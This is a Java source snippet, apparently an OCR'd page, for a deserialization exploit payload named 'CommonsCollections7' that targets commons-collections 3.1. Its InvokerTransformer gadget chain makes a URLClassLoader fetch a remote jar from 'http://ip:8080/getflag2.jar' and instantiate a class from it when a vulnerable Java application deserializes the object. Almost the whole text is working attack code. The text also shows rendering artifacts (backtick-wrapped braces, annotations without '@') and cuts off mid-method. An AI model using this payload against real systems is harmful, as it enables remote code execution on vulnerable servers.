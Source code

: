 ```
https://github.com/JetBrains/jdk8u_jdk/commit/af2361ee2878302012214299036b3a8b4ed36974#diff-f89b1641c408b60efe29ee513b3d22ffR70
 */
//@PayloadTest(skip="need more robust way to detect Runtime.exec() without SecurityManager()")
SuppressWarnings(`{`"rawtypes", "unchecked"`}`)
PayloadTest ( precondition = "isApplicableJavaVersion")
Dependencies(`{`"commons-collections:commons-collections:3.1"`}`)
Authors(`{` Authors.MATTHIASKAISER, Authors.JASINNER `}`)
public class CommonsCollections7 extends PayloadRunner implements ObjectPayload&lt;BadAttributeValueExpException&gt; `{`

    public BadAttributeValueExpException getObject(final String fileName) throws Exception `{`
        // inert chain for setup
        final Transformer transformerChain = new ChainedTransformer(
            new Transformer[]`{` new ConstantTransformer(1) `}`);
        // real chain for after setup
        final Transformer[] transformers = new Transformer[] `{`
            new ConstantTransformer(java.net.URLClassLoader.class),
            // getConstructor class.class classname
            new InvokerTransformer("getConstructor",
                new Class[] `{` Class[].class `}`,
                new Object[] `{` new Class[] `{` java.net.URL[].class `}` `}`),
            // newinstance string http://www.iswin.org/attach/iswin.jar
            new InvokerTransformer(
                "newInstance",
                new Class[] `{` Object[].class `}`,
                new Object[] `{` new Object[] `{` new java.net.URL[] `{` new java.net.URL(
                    "http://ip:8080/getflag2.jar") `}` `}` `}`),
            // loadClass String.class R
            new InvokerTransformer("loadClass",
                new Class[] `{` String.class `}`, new Object[] `{` "getflag2" `}`),
            // set the target reverse ip and port
            new InvokerTransformer("getConstructor",
                new Class[] `{` Class[].class `}`,
                new Object[] `{` new Class[] `{` String.class `}` `}`),
            // invoke
            new InvokerTransformer("newInstance",
                new Class[] `{` Object[].class `}`,
                new Object[] `{` new String[] `{` fileName `}` `}`),
            new ConstantTransformer(1) `}`;

        final Map innerMap = new HashMap();

        final Map lazyMap = LazyMap.decorate(innerMap, transformerChain);

        TiedMapEntry entry = new TiedMapEntry(lazyMap, "foo");

        BadAttributeValueExpException val = new BadAttributeValueExpException(null);
        Field valfield = val.getClass().getDeclaredField("val");
        valfield.setAccessible(true);
        valfield.set(val, entry);

        Reflections.setFieldValue(transformerChain, "iTransformers", transformers); // arm with actual transformer chain

        return val;
    `}`

    public static void main(final String[] args) throws Exception `{`
        PayloadRunner.run(CommonsCollections7.class, args);
    `}`

    public static boolean isApplicableJavaVersion() `{`
```